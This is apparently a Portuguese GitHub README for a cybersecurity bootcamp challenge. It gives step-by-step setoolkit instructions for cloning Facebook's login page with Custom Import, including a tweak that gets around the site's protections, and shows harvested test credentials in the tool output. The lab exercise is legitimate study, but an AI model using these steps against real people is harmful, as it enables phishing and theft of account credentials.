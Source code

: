 # Phishing para a captura de credenciais do Facebook

Este é um desafio proposto pela DIO no Santander Bootcamp Cibersegurança #2.

## Ferramentas
- Kali Linux
- setoolkit

## Configurando o Phishing no Kali Linux
- Acesso root: `sudo su`
- Iniciando o setoolkit: `setoolkit`
- Tipo de ataque **Social-Engineering Attacks**: `1`
- Vetor de ataque **Website Attack Vectors**: `2`
- Método de ataque **Credential Harvester Attack Method**: `3`

A partir deste ponto, usar a opção **Site Cloner** para coletar as credenciais do facebook não é suficiente, devido as medidas de segurança do site. Para contornar este problema, utilizei o [método sugerido pelo Weslley Marques](https://github.com/Weslley22Marques/cibersecurity-desafio-phishing), que consiste em usar a opção **Custom Import** do _setoolkit_.

- Método de ataque **Custom Import**: `3`
- Em seguida, o _setoolkit_ vai pedir para inserir o IP em que será hospedado a página phishing. Apenas pressione ENTER para usar o IP da máquina. Para conferir o IP manualmente, execute o comando `ifconfig`.

### Configurando a página phishing
- Crie um arquivo chamado `index.html`
- Acesse https://www.facebook.com no seu navegador
- Clique com o botão direito e clique em **View Page Source**
- Copie o código fonte da página e cole no arquivo `index.html` criado
- Abra o arquivo e identifique e delete a linha que contém:
    
    `<script src="https://static.xx.fbcdn.net/rsrc.php/v4/yh/r/eu52kbGWc19.js" data-bootloader-hash="lp6Cw4s" crossorigin="anonymous"></script>`
    
    Lembre-se de salvar o arquivo.

### Finalizando a configuração no setoolkit
- Voltando ao _setoolkit_, insira o caminho do diretório que contém o arquivo `index.html`
- Selecione a opção **Copy the entire folder**: `2`
- Por fim, insira a URL do site importado. Neste caso: `http://www.facebook.com`

## Resultados

Após inserir as credenciais no site phishing acessado através do IP fornecido no _setoolkit_, os dados são coletados e mostrados no programa:
```
192.168.100.101 - - [14/Dec/2024 14:46:17] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: jazoest=21044            
PARAM: lsd=AVpj4siniQk                                                             
POSSIBLE USERNAME FIELD FOUND: email=testando@gmail.com                                            
POSSIBLE PASSWORD FIELD FOUND: pass=testando12345                                                  
POSSIBLE USERNAME FIELD FOUND: login_source=comet_headerless_login                                 
PARAM: next=          
POSSIBLE USERNAME FIELD FOUND: login=1                                                             
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT. 
```
